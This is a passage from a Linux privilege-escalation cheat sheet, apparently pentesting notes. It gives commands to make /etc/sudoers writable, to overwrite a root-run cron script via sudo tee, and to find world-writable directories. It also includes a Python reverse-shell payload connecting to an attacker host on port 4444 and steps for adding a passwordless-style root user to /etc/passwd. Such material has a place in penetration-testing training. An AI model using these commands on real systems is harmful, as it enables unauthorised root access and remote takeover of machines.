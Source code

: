 ```
chmod +w /etc/sudoers to add write properties to sudoers file to do the above
```

and then

```
cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

which will add contents of temp.sh to tidyup.sh. \( Assuming tidyup.sh is running as root by crontab \)

[How I got root with sudo/](https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/)

### World writable scripts invoked as root

If you find a script that is owned by root but is writable by anyone you can add your own malicious code in that script that will escalate your privileges when the script is run as root. It might be part of a cronjob, or otherwise automatized, or it might be run by hand by a sysadmin. You can also check scripts that are called by these scripts.

```bash
#World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
```

#### Weird Scripts that run as root

###### See if you can command inject and run other scripts; if so

bash /tmp/shell.sh

```
#shell.sh

#!/bin/bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Can write to /etc/passwd

Can add a user with root permissions

```
#Generate a password to include in /etc/passwd; example salt is lulz, password is letmein, and user is plz
openssl passwd -1 -salt lulz letmein
#$1$lulz$TNLkd169ZEm7OHQx.1M060
#edit /etc/passwd
plz:$1$lulz$TNLkd169ZEm7OHQx.1M060:0:0:root:/root:/bin/bash
```
